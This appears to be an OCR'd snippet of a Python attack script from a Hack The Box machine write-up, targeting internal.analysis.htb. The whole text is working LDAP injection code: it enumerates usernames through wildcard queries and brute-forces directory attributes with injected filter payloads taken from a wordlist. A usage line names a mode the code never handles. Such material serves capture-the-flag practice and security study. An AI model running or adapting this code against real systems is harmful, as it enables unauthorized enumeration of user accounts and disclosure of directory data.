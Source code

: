 ```python
    results = []
    p1 = log.progress("Brute status")
    p2 = log.progress("Currently finding username")
    p3 = log.progress("Finded usernames")
    async with aiohttp.ClientSession() as session:
        for char in chars:
            
            first_url = f"http://internal.analysis.htb/users/list.php?name={char}*"
            r = await fetch(session, first_url)
            end_loop = False
            if "CONTACT_" not in r:
                result = char 
                while True:
                    for char in chars:
                        
                        url = f"http://internal.analysis.htb/users/list.php?name={result}{char}*"
                        r = await fetch(session,url)
                        if "CONTACT_" not in r:
                            result += char
                            break
                        else:
                            if char == chars[-1]:
                                end_loop = True
                                results.append(result)
                                p3.status(results)
                                break
                        p1.status(f"{[*chars].index(char) + 1}/{len(chars)}")
                        p2.status(result)
                    if end_loop:
                        break
# Function to enumerate valid fields
async def bruteFields():
    p1 = log.progress("All fields")
    p2 = log.progress("Currently finding attribute")
    results = []
    result = ''
    async with aiohttp.ClientSession() as session:
        with open("/opt/SecLists/Fuzzing/LDAP-active-directory-attributes.txt", "r") as f:
            for attribute in f.readlines():
                p2.status(attribute)
                attribute = attribute.strip("\n")
                url = f"http://internal.analysis.htb/users/list.php?name=*)({attribute}%3d*"
                r = await fetch(session, url)
                
                if "CONTACT_" not in r and "<strong>" in r:
                    results.append(attribute)
                p1.status(results)
if __name__ == '__main__':
    
    if len(sys.argv) < 2:
        print(f"""[i] Usage: python3 {sys.argv[0]} [usernameEnum/bruteFieldContent/bruteFields]
                - usernameEnum: enumerates usernames of the machine
                - bruteFields: brute all valid fields.
              """)
        sys.exit(1)
    else:
        if sys.argv[1] == "usernameEnum":
            asyncio.run(bruteUsernames())
        elif sys.argv[1] == "bruteFields":
            asyncio.run(bruteFields())
        else:
            print("Invalid value of arguments")

```